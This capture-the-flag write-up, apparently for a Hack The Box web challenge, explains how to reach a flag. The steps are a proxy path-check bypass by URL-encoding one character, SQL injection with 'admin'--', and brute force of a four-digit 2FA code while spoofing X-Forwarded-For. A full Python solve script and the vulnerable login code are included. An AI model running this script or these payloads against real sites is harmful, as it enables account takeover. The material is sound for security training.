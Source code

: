 # Challenge: No threshold

**Lab Description**: Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩

## Lab Solution

By the looks of it, if authentication is achieved the flag will be displayed, as per `dashboard.py`. SQLi is achievable on the login page, as the input is not sanitized and the SQL command is not parsed as a prepared statement. When logging in, the 2FA code is set. The `/auth/login` check can be bypassed by url encoding a character of the path. using `/auth/logi%6e` where `%6e` is URL encoded `n` will bypass the check. The same should be done when doing SQLi in post: `Path: {/auth/logi%6e}, Data: {username="admin'--", password: "a"}` will allow us through the to 2FA page.

Testing the solve script with the URL encoded `n`, we see that the proxy is redirecting to the correct page:

```curl
{'Content-Type': 'application/x-www-form-urlencoded', 'X-Forwared-for': '55.205.2.64'}
[b'<!doctype html>\n', b'<html lang=en>\n', b'<title>Redirecting...</title>\n', b'<h1>Redirecting...</h1>\n', b'<p>You should be redirected automatically to the target URL: <a href="/auth/verify-2fa">/auth/verify-2fa</a>. If not, click the link.\n']
```

Now the idea is to bruteforce the 2FA code, as it is only 4 characters in size. The bruteforce approach is chosen, as it is also observed that the 2FA code remains the same for 5 minutes, which is more than enough time to bruteforce 4 characters.

```python
def set_2fa_code(d):
    uwsgi.cache_del("2fa-code")
    uwsgi.cache_set(
        "2fa-code", "".join(random.choices(string.digits, k=d)), 300 # valid for 5 min
    ) 


@login_bp.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        
        username = request.form.get("username")
        password = request.form.get("password")

        if not username or not password:
            return render_template("public/login.html", error_message="Username or password is empty!"), 400
        try:
            user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )

            if user is None:
                return render_template("public/login.html", error_message="Invalid username or password"), 400

            set_2fa_code(4)

            return redirect("/auth/verify-2fa")
        finally:
            close_db()
    return render_template("public/login.html")
```

The above code is the login logic for the page. Where it is seen that when logging in, the `set_2fa_code(4)` function is called. Futhermore the value of 300 seconds equates to a five minute span, before the cache drops the 2FA code.

In order to bruteforce this, a script is created which will perform the SQLi on the Login page, and proceed to bruteforce the 2FA code:

```python
import http.client
from random import randint
from time import sleep

host = "localhost:1337"
# host = "83.136.254.199:38770"

conn = http.client.HTTPConnection(host)
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'X-Forwarded-For': '.'.join([str(randint(1,256)) for _ in range(4)])
}

print(headers)
conn.request('POST', '/auth/logi%6E', 'username=admin%27+--&password=a', headers)
# Now there is a random code in the 2fa cache
# Sleep to make sure
sleep(1)
n = 0
while True:
    code = f'{n:04}'
    print(f'Guessing code: {code}')
    # We just guess codes now
    conn = http.client.HTTPConnection(host)
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'X-Forwarded-For': '.'.join([str(randint(1,256)) for _ in range(4)])
    }
    conn.request('POST', '/auth/verify-2fa', '2fa-code='+code, headers)

    response = conn.getresponse()
    if response.code != 400:
        if not "/auth/login" in str(response.headers):
            print(response.readlines())
            print(response.headers)

            # Cookie should be in set-cookie header
            exit()
        else:
            print("ran out of time")
            exit()
    n += 1
```

The script first logs in as the admin user, using the SQLi payload `admin'--`, putting something random in the password field to pass the form check. After the format string `code=f'{n:04}'` pads the `n` variable with zeroes until it is 4 characters in size. Then the code is sent to the 2FA verification endpoint, if the response does not return HTTP status code 400, the headers of the response is printed to reveal the session cookie. Using this cookie with curl, the flag is obtained:

`curl -c 'session=eyJhdXRoZW50aWNhdGVkIjp0cnVlfQ.ZdDVOw.XcjobARlS0sCDu-65LbcST-CPXA' localhost:1337/dashboard`

**Note:** In the solve script, the HTTPConnection library is used instead of the requests library, as requests would parse the URL encoded character and format it, making the proxy catch us with this check: `http-request deny if { path_beg /auth/login }`

This challenge also shows why 2FA codes need to be replaced frequently, if they are short, as they can be bruteforced quite easily if the code has a size of a mere 4 characters.

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="/static/css/style.css">
    <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Press+Start+2P&display=swap">

    <script src="https://code.jquery.com/jquery-3.7.1.min.js"></script>
    <script src="/static/js/verify-2fa.js"></script>
    <title>Dashboard</title>
</head>

<body>
    <div class="container">
        <div class="content">
            Welcome, here is your flag: <b> HTB{redacted} </b>
        </div>
    </div>
</body>

</html>% 
```
